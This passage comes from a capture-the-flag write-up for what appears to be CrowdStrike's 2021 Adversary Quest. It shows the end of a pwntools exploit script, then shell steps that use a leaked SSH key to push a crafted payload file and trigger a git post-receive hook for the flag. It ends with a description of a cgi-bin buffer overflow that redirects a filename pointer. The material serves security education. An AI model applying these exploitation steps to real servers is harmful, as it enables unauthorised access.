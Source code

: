 r = process('./detab', level='debug')
r.sendline(payload)
r.shutdown('send')
r.interactive()

{% endhighlight %}

We then check out the repoistory from the server using the key found in the image, add the file, push the changes back to the server and then finally pull the changes back down to bet the output of the post-receive hook to get the flag.

{% highlight bash %}

$ cat <<EOF>>~/.ssh/config
Host TabNabbed
    Hostname tabnabbed.challenges.adversary.zone
    Port 23230
    User git
    IdentityFile .../ctf/crowdstrike2021/space-jackal/tab-nabbed/developers.key
    IdentitiesOnly yes
EOF

$ git clone TabNabbed:hashfunctions.git
$ cd hashfunctions
$ python3 ../solve.py
$ git add payload.dat
$ git commit -m "flag"
$ git push
$ git pull
$ strings payload.dat     
...
CS{th3_0ne_4nd_0nly_gith00k}
...
{% endhighlight %}

Flag: `CS{th3_0ne_4nd_0nly_gith00k}`

## Protective Pengiun

Adversary number two is the Protective Penguin. Unfortunately, I didn't really catch the overall theme here.

### Portal

We are provided with the code for a web server running a cgi-bin program to authenticate users. The program base64 decodes the username and password into a buffer. The credentials are concatenated with a colon between and compared against entries in a text file. Unfortunately the buffer is too small and we can overflow it. The program has a stack cookie and we have no memory leak but we can overwrite a single pointer pointing to the filename of the users list. Since the file is opened after the credentials are decoded and the buffer overflowed we can replace the path to the user list with a different string. The binary contains the strings "/lib64/ld-linux-x86-64.so.2" and fortunately this file contains strings with a colon in them such as "conflict processing: %s". The following exploit performs the attack:
